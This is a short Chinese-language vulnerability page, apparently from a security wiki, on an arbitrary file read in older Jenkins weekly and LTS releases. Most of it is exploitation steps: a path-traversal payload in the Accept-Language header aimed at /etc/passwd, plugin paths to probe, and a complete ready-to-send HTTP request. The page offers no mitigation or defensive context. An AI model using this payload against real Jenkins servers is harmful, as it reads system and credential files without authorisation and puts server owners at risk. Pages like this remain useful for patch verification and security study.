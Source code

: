 <languages   />

<translate>

影響版本
--------

Jenkins weekly 2.132 以及更早的版本 Jenkins LTS 2.121.1 以及更早的版本

可以讀取Windows系統服務器中的任意文件，且在特定而條件下也可以讀取Linux系統服務器中的文件.

漏洞利用
--------

需要已經開啟了匿名用戶讀取權限，在請求頭中添加： </translate>

    Accept-Language: /../../../../../../../../etc/passwd

<translate> 處理請求中的包含路徑，比如/plugin/xxxx，可以嘗試: </translate>

    /plugin/jquery-detached/.xml
    /plugin/jquery-detached/.key
    /plugin/credentials/.ini

Windows:

    GET /plugin/credentials/.ini HTTP/1.1
    Host: x.x.x.x:8080
    Accept: text/javascript, text/html, application/xml, text/xml, */*
    X-Prototype-Version: 1.7
    DNT: 1
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36
    Origin: http://x.x.x.x:8080
    Referer: http://x.x.x.x:8080/
    Accept-Encoding: gzip, deflate
    Accept-Language: /../../../../../../../../etc/passwd
    Cookie: JSESSIONID.450017e3=x6kdpnkcgllh18wvlaohsqq8z; screenResolution=1920x1080; JSESSIONID.ccf0cd96=node09crp5bs5eglyrv874no3w48l0.node0; JSESSIONID.6551b177=14vcq2nsop6bw1u8urepj65kwv; td_cookie=1608956971
    Connection: close
